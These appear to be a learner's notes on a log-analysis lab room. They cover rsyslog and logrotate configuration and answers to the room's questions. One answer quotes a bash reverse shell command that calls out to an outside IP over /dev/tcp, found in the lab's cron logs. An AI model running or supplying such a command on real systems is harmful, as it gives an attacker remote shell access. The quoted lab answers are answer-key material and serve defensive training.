







## Room goals:
- Understand the importance of logs as a historical activity record for identifying and mitigating potential threats
- Explore various types of logs, logging mechanisms and collection methods across multiple platforms
- Gain hands-on experience detecting and defeating adversaries through log analysis

## Scenario 
- web server being constantly hit with scans
- configure logging and analyze the logs to see what adversary is doing

user `damianhall` limited sudo priveledges
- `sudo -l` --> check what commands user has access to

```
User damianhall may run the following commands on WEBSRV-02:
    (ALL) NOPASSWD: /bin/systemctl status rsyslog
    (ALL) NOPASSWD: /bin/systemctl start rsyslog
    (ALL) NOPASSWD: /bin/systemctl stop rsyslog
    (ALL) NOPASSWD: /bin/systemctl restart rsyslog
    (ALL) NOPASSWD: /bin/systemctl status logrotate
    (ALL) NOPASSWD: /bin/systemctl start logrotate
    (ALL) NOPASSWD: /bin/systemctl stop logrotate
    (ALL) NOPASSWD: /bin/systemctl restart logrotate
    (ALL) NOPASSWD: /usr/sbin/logrotate -d /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/sbin/logrotate -f /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/gedit /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/nano /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/vim /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/vi /etc/logrotate.d/98-websrv-02_sshd.conf
```

- looks like can edit some config files and also access to start / stop rsyslog and logrotate

## Notes
useful locations (from `Note.txt` on machine desktop)

`/var/log/gitlab/`
`/var/log/gitlab/nginx/access.log` suspicious web browser activity 

logrotate configuration
`/etc/logrotate.d/`

components of gitlab instance 
`/var/opt/gitlab/logrotate/logrotate.d/`

## Questions
What is the name of your colleague who left a note on your Desktop?
- `Perry` (Desktop `note.txt`)

What is the full path to the suggested log file for initial investigation?
- `/var/log/gitlab/nginx/access.log` (Desktop `note.txt`)

Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?
- `web server log`
    - nginx logs (a webserver)

Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?
- `combined`
    - NCSA Combined Log Format (Combined): An extension of CLF, adding fields like referrer and user agent. It is typically used by **Nginx** HTTP Server by default.

After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?
- `stansimon`



What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?
- `10.10.10.101`



Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?
- `/bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"`


- a reverse shell command...

Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?
- 24



Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?
- hourly

Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?
- `no date field`



What is the process of standardising parsed data into a more easily readable and query-able format?
- `normalisation`
    - with an "s"

What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?
- `Enrichment`

### Practical Examples
#### Log Collection with Rsyslog
first ssh'd into the machine from my kali attackbox

check if rsyslog is installed / running:



create config file:

`vim /etc/rsyslog.d/98-websrv-02-sshd.conf`
```
$FileCreateMode 0644
:programname, isequal, "sshd" /var/log/websrv-02/rsyslog_sshd.log
```

restart rsyslog: `sudo systemctl restart rsyslog`

check its all working:



#### Practical Activity: Log Management with logrotate
- automates log file rotation, compression, and management
- setup for `/var/log/websrv-02/rsyslog_sshd.log`

1. create config file: `sudo vim /etc/logrotate.d/98-websrv-02_sshd.conf`
```
/var/log/websrv-02/rsyslog_sshd.log {
    daily
    rotate 30
    compress
    lastaction
        DATE=$(date +"%Y-%m-%d")
        echo "$(date)" >> "/var/log/websrv-02/hashes_"$DATE"_rsyslog_sshd.txt"
        for i in $(seq 1 30); do
            FILE="/var/log/websrv-02/rsyslog_sshd.log.$i.gz"
            if [ -f "$FILE" ]; then
                HASH=$(/usr/bin/sha256sum "$FILE" | awk '{ print $1 }')
                echo "rsyslog_sshd.log.$i.gz "$HASH"" >> "/var/log/websrv-02/hashes_"$DATE"_rsyslog_sshd.txt"
            fi
        done
        systemctl restart rsyslog
    endscript
}
```
2. execute `sudo logrotate -f /etc/logrotate.d/98-websrv-02_sshd.conf`
